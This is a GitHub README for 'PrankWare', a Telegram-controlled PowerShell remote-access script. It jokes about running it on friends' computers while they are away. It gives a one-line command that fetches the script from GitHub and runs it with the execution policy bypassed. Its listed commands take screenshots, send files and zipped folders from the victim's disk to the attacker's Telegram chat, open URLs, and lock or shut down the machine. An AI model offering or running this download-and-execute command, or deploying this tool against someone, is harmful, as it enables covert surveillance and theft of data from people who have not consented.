 # Telegram-Controlled PowerShell Script

**Get persistent remote control access through Telegram commands.**  
Don't use it when your friends are away from their computer 🤫  
This script allows you to control a Windows system remotely through Telegram, offering various functionalities like taking screenshots, sending files, locking or restarting the system, and more.

## 🛠 Prerequisites

- Windows 10 or newer
- PowerShell 5 or later (built-in)
- Internet connection
- A Telegram bot token (from [@BotFather](https://t.me/BotFather))
- Your own Telegram user ID (use [@userinfobot](https://t.me/userinfobot))

### 📥 How to Create a Telegram Bot
1. Open Telegram and search for `@BotFather`.
2. Start a conversation and type `/newbot` to create a new bot.
3. Follow the instructions to set a name and username for your bot.
4. After completion, you will receive a **bot token** which you'll use in the script.

## 🔒 Enable Script Execution

Before running the script, allow PowerShell to execute local scripts:

## Powershell (Permanent fix)
```
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned
```
## Powershell (One-time fix for your session)
```
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
```
## Powershell pipeline
```
iwr 'https://raw.githubusercontent.com/xtofuub/PrankWare/main/prankware.ps1' -UseBasicParsing -OutFile "$env:TEMP\prankware.ps1"; powershell -ep bypass -File "$env:TEMP\prankware.ps1"
```



## Available Commands

### System Control
- `/lock`: Locks the workstation.
- `/restart`: Restarts the computer.
- `/shutdown`: Shuts down the computer.
- `/notepad`: Opens Notepad.
- `/pcname`: Shows the computer name.
- `/ip`: Shows local and public IP addresses.
- `/screenshot`: Takes a screenshot and sends it to the Telegram chat.
- `/sendfile <path>`: Sends a file from the local disk to the Telegram chat.
- `/sendfolder <path>`: Sends a zipped folder from the local disk to the Telegram chat.
- `/visit <url>`: Opens a URL in the default web browser.

### Navigation and File Operations
- `cd <path>`: Change directory to the specified path.
- `cd`: Displays the current directory.
- `ls` or `dir`: Lists files and folders in the current directory.

### Help
- `/help`: Displays a list of all available commands.

